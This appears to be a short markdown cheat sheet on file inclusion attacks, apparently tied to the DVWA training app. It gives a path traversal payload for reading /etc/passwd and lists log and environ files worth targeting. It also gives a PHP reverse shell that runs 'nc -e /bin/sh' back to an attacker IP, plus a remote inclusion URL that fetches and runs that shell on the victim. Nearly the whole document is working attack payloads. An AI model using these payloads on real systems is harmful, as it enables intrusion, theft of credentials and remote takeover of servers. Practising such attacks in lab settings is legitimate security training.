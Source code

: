# File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```
- Intersting files
  - /proc/self/environ
  - /var/log/auth.log
  - /var/log/apache2/access.log  
- Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  

## Remote
- Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
``` 
  - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```
